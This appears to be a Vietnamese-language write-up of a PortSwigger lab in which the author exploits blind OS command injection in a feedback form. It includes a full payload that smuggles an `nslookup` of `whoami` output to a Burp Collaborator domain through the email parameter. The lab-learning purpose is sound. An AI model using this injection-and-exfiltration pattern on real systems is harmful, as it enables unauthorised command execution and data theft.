




# Write-up: Blind OS command injection with out-of-band interaction

### Tổng quan
Khai thác lỗ hổng blind OS command injection trong chức năng feedback, sử dụng kỹ thuật out-of-band interaction để thực thi lệnh nslookup và lấy kết quả whoami qua Burp Collaborator.

### Mục tiêu
- Thực thi lệnh `nslookup` để gây ra DNS lookup tới Burp Collaborator và lấy tên người dùng hiện tại.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser 

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Gửi feedback bất kỳ, bắt yêu cầu POST tới `/feedback/submit` trong Burp Proxy HTTP History:
    - Gửi yêu cầu này tới Repeater để thử nghiệm.
    

2. **Khai thác (Exploitation)**
- Thay đổi tham số `email` để chèn lệnh `nslookup` với tên miền Burp Collaborator:
    ```
    email=test%40gmail.com&nslookup `whoami`.6y5nwnftee1m629h0bth9kr65xbozfn4.oastify.com &
    ```
- Gửi yêu cầu trong Repeater:
    
    - **Kết quả**: Kiểm tra Burp Collaborator, nhận DNS lookup với nội dung `peter`, xác nhận lệnh `whoami` được thực thi, hoàn thành lab:
    
    

### Bài học rút ra
- Hiểu cách khai thác blind OS command injection bằng out-of-band interaction khi không có output trực tiếp.
- Nhận thức tầm quan trọng của việc kiểm tra và lọc dữ liệu người dùng trước khi thực thi lệnh hệ thống.

### Tài liệu tham khảo
- PortSwigger: OS command injection

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác blind OS command injection, sử dụng out-of-band interaction để thực thi lệnh `nslookup` và lấy kết quả qua Burp Collaborator. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 5/2025.*